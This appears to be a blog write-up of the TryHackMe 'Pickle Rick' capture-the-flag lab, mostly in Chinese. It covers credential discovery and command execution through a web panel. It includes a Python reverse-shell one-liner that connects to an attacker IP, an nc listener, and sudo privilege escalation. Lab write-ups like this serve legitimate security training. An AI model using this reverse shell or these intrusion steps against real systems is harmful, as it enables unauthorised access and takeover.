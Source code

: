 ```yaml
---
title: Tryhackme-easy-Pickle Rick
slug: tryhackmeeasypickle-rick-1vlraf
url: /post/tryhackmeeasypickle-rick-1vlraf.html
date: '2024-08-14 14:08:26+08:00'
lastmod: '2025-05-07 21:28:57+08:00'
toc: true
categories:
  - penetration
isCJKLanguage: true
---
```


# Tryhackme-easy-Pickle Rick

# 前言

一个简单靶场，kali环境有些小问题，这次是windows下做的

A Rick and Morty CTF. Help turn Rick back into a human!

# 过程

首先给出一个页面

```plain
Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

很明显提示说使用burpsuite

通过抓包得到一条提示信息

```plain
Note to self, remember username!
Username: R1ckRul3s
```

先使用扫描存在的端口，发现存在了两个开放端口

```plain
2024/2/23 23:27:09    开始扫描...
10.10.242.108:22
10.10.242.108:80
```

然后来扫一下目录

```plain
login.php
robots.txt
```

在robots.txt下发现存在字符串，当作密码

```plain
Wubbalubbadubdub
```

login.php尝试登录，登陆后成功跳转portal.php

存在一个可能是命令执行的窗口，ls后查看

```plain
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

访问Sup3rS3cretPickl3Ingred.txt，得到第一个flag

在clue.txt发现一段话

```plain
Look around the file system for the other ingredient.
```

denied.php禁止访问

开始反弹shell

```plain
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.71.162 ",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

```plain
nc -nlvp 1234
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-RbVJ34EyWQNHPaT-20250507212942-z1wnbo1.png)​

成功反弹后进行提权操作

```plain
sudo -l
```

发现当前甚至没有设置基础密码

```plain
Matching Defaults entries for www-data on ip-10-10-242-108.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-242-108.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```plain
sudo su
```

成功提权

然后查找相应的两个flag

```plain
cat "second ingredients"
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-tmTeXNpjWKaqfEy-20250507212942-3m2rzro.png)​

```plain
cat ./3rd.txt
```

​![](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/network-asset-H7wTqBGDkIljEb8-20250507212943-hhsc68q.png)​

‍
